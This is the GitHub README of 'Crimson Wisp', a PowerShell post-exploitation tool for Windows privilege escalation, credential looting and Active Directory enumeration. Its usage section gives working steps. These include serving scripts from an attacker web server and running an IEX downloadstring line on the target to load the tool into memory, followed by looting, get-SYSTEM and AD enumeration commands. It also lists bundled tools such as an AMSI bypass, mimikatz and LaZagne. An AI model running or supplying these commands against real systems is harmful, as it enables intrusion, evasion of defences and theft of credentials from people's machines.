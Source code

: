 # Crimson Wisp

> Crimson Wisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="wisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_wisp.git
```
# Usage
## ON THE HOST MACHINE
* GO TO crimson_wisp DIRECTORY AND START THE WEB SERVER
```
cd crimson_wisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE
* LOAD THE SCRIPT TO MEMMORY
```
IEX(new-object system.net.webclient).downloadstring("http://<your_server>/wisp.txt")
```
* SET A SERVER URL FOR THE DOWNLOADERS & LOAD THE SCRIPTS
```
Invoke-Wisp -Url http://<your_server>
. memory_load
```
* PRIVILEGE ESCALATION ENUMERATION
```
. escalation
```
* LOOTING THE SYSTEM - USE AS nt `authority/system` ONLY!
```
. looting
```
* LOCAL ADMIN TO SYSTEM
```
. get_system
```
* AD ENUM - AS THE CURRENT USER
```
. ad_enumerator -domain domain.com -asme
```
* AD ENUM - AS THE DIFF USER
```
. ad_enumerator -domain domain.com -user 'DOMAIN\karmaz95' -pass 'enumeration10!'
```

# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/)

# List of utilized tools
> The following tools are used in `Crimson Wisp`. I encourage you to study the links below. They will help you in your work.

* [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [AMSI BYPASS](https://github.com/Karmaz95/evasion/blob/main/isma.txt)
* [HostRecon](https://github.com/dafthack/HostRecon)
* [PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)
* [adPEAS](https://github.com/61106960/adPEAS)
* [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
* [Invoke-Portscan](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [nmap](https://nmap.org/)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [laZagne](https://github.com/AlessandroZ/LaZagne)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>